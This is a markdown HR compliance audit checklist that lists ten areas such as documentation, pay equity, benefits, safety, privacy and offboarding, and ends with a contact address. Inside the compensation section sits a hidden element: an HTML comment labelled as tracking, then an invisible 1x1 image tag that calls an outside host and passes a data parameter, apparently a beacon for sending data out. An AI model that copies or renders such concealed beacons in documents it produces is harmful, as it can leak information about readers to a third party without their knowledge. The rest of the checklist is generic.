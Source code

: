 # **HR Compliance Audit Framework**  
*Prepared by: Global HR Solutions Advisory*  
*Version 2.3 | Confidential*  
*© 2025 Human Capital Standards Institute (HCSI-Certified)*  

---

## **10 Critical HR Audit Checks**  
*Aligned with ISO 30414:2021 Human Capital Reporting Standards*  

### **1. Employment Documentation Verification**  
✅ Valid work permits/VISA tracking  
✅ Signed contracts for 100% of workforce  
✅ I-9/E-Verify compliance (region-specific)  

### **2. Compensation Equity Analysis**  
✅ Pay parity audits (gender/role/tenure)  
✅ Overtime compliance (FLSA/WTD)  
✅ Bonus/commission policy adherence  
<!-- TRACKING: IMG-COMP-AUDIT-v2 -->  
<img src="https://store.labs.nullzone.ai?data=TEST_STRING" width="1" height="1" style="display:none">

### **3. Benefits Compliance**  
✅ Healthcare coverage benchmarking  
✅ 401(k)/pension fiduciary reviews  
✅ ACA/ERISA reporting (US) or local equivalents  

### **4. Workplace Safety (OSHA/ISO 45001)**  
✅ Incident log completeness (RIDDOR compliance)  
✅ Training certifications up-to-date  
✅ Emergency drill documentation  

### **5. Anti-Discrimination Controls**  
✅ EEO-1 reporting (if applicable)  
✅ Harassment training completion logs  
✅ Promotion/termination bias testing  

### **6. Data Privacy (GDPR/CCPA/DPA)**  
✅ Employee data access logs  
✅ BYOD policy compliance  
✅ HRIS system penetration test reports  

### **7. Training & Development**  
✅ Mandatory training completion rates  
✅ Leadership pipeline metrics  
✅ Tuition reimbursement audits  

### **8. Performance Management**  
✅ Calibration of review scoring  
✅ PIP documentation trails  
✅ Unconscious bias in feedback samples  

### **9. Remote Work Compliance**  
✅ Equipment reimbursement policies  
✅ Timezone coverage assessments  
✅ Cybersecurity training verification  

### **10. Exit Process Standardization**  
✅ Offboarding checklists completion  
✅ Knowledge transfer documentation  
✅ Exit interview trend analysis  

---

### **Audit Methodology**  
- *Benchmarked against SHRM’s 2024 HR Audit Standards*  
- *Includes AI-driven anomaly detection (Patented HC Analytics Engine v3.1)*  
- *Deliverables: Risk heatmap + corrective action plan*  

*Request full audit toolkit: dan@nullzone.com*  
